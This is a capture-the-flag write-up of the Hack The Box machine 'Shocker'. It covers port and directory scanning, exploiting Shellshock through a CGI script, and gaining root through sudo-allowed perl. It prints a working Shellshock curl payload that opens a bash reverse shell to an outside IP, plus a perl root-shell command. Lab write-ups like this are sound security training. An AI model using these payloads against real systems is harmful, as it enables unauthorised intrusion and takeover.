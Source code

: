 # Shocker

# Enumeration

## Nmap

I start off with a simple nmap of the system. Looks like the system is running an Apache server over port 80 and OpenSSH over port 2222.

```bash
nmap -sC -sV shocker.htb > nmap.txt
```

![Untitled](hackthebox/shocker/POC/nmap.png)

## Website

### Page

Visiting the webpage I see a simple image of a bug saying “Don’t Bug Me!”

![Untitled](hackthebox/shocker/POC/website)

Checking the source doesnt reveal any further information as well.

```html
<!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

### Dirb

Since I can’t find any giveaways on the page itself, I’ll run dirb to brute force some possible directories. I find a directory by the name of `cgi-bin/` which seems interesting to me, I should google this directory name and see if I can find any vulnerabilities.

![Untitled](hackthebox/shocker/POC/dirb.png)

After doing some research, it seems that cgi-bin is a directory containing CGI scripts which can be used to call out to applications hosted on the server. 

After a bit more digging, it seems that CGI scripts are typically shell, cgi, or perl scripts. I will run dirb again against the cgi-bin directory, this time searching for shell scripts. This reveals `/cgi-bin/user.sh`

![Untitled](hackthebox/shocker/POC/dirb2.png)

Traveling to the address prompts me to download the script, which I do. I’ll cat the file out to see what its contents are. The contents look like the results of the `uptime` command. So this is probably a script ruinning on the box.

![Untitled](hackthebox/shocker/POC/shell_script.png)

## Shellshock

One of the [results](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) I ran into while searching for `cgi-bin/` vulnerabilities was for the ShellShock vulnerability. From what I can find it was a Bash vulnerability found in 2014 allowing for command execution due to how environment variables were handles.

The POC shown in this article shows how Bash will take `x='() { :;};’` as a function, and then execute the commands that come after it. For example with the following input:

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo test"
```

The output would be:

```bash
vulnerable
test
```

If an Apache server has CGI enabled, this can be exploited. To test this, I send a request testing if the system is vulnerable to shellshock:

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](hackthebox/shocker/POC/vulnerable.png)

Looks like this system is vulnerable!

# Exploitation

## Shellshock Reverse Shell

I set up a netcat listener on port 1234 and send the following payload to receive a connection back.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](hackthebox/shocker/POC/reverse_shell.png)

We’re in!

## User Flag

Running `whoami` we can see we are the user shelly, first I’ll navigate to the users home directory and grab the user flag.

![Untitled](hackthebox/shocker/POC/user_flag.png)

# Privelege Escalation

## Sudo Commands

The first thing I always do to check for possible privelege escalation vectors is running the `sudo -l` command because of how quick it is. In this case it looks like shelly is able to run perl as root, this will be easy!

![Untitled](hackthebox/shocker/POC/shelly_sudo.png)

## Perl

Perl is a simple binary to use for priv esc, but I’ll usually check [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to see how a binary can be exploited, as there is typically more than one way.

Because Perl is not complicated, I can just use the `-e` flag to run it directly from command line. I’ll then use the `exec` command to launching a new shell as root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

With my new shell launched, I run `whoami` once more to reveal that I am now root.

![Untitled](hackthebox/shocker/POC/root.png)

## Root Flag

Now all that needs to be done is navigate to the root directory and grab the root flag!

![Untitled](hackthebox/shocker/POC/root_flag.png)
